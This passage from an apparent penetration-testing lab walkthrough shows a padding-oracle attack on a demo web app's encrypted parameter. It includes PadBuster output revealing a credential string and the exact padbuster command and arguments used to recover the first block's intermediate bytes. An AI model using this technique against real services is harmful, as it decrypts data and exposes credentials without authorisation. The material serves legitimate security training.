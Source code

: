 Block 2 Results:
```bash
[+] Cipher Text (HEX): 5bbd4363b9d91d4c9100beae6ce34e80
[+] Intermediate Bytes (HEX): dccc4030511450201f4c3dc9635ad426
[+] Plain Text: d=sesame
```

```bash
Decrypted value: ame=user&Password=sesame
```

PadBuster revealed that behind the encrypted string, there is the **ame=user&Password=sesame** string. 

However, if you take a look at the decrypted blocks, they are just 2/3 of the entire ciphertext. 

The first part, which is equal to 1/3 of the length, was not decrypted. It may contain other parameters or the full name of the first parameter.

> This happened because the first block is XOR'd with the initialization vector (IV), which is not known to us.

```bash
Image Source: https://samsclass.info/141/proj/p11pad9.png
```

> To get the first block, we would need the IV.

Step 8: Recreate the missing parameter and obtain the key.

Visit the /check endpoint and provide the ciphertext, and it will give back the complete details about the encrypted string:
```bash
URL: http://demo.ine.local/check?cipher=6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80
```

The decrypted as well as the parsed content is shown in the response.

- We now know that the full parameter name is ApplicationUsername. This should be the content of the first, previously not decrypted, block 6b664ef0359fe233e021ad36b12d8e32.

So far, we know that we have three blocks:
```bash
6b664ef0359fe233e021ad36b12d8e32 -> ApplicationUsern
b8f1335522753d45174435c16b52dc2e -> ame=user&Passwor
5bbd4363b9d91d4c9100beae6ce34e80 -> d=sesame
```

> To obtain the key, we need to run **Padbuster** with the following arguments:

Command:
```bash
padbuster "http://demo.ine.local/check?cipher=6b664ef0359fe233e021ad36b12d8e32" "6b664ef0359fe233e021ad36b12d8e32" 16 -encoding 1 -error "ApplicationUsername missing" -prefix "6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e" -noiv
```

The reason for these arguments is the following:
```bash
- We use just the first block of the whole encrypted string - the one that was not decrypted
- Next, we specify 16 bytes as the block size and lowercase hex encoding
- error tells the application what string to look for in the response page to treat it as the error (we could have identified that error message by requesting something like http://demo.ine.local/check?cipher=6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34eff and the response would indicate of the invalid padding)
- noiv is used to get the intermediate value after decrypting the first block.
```
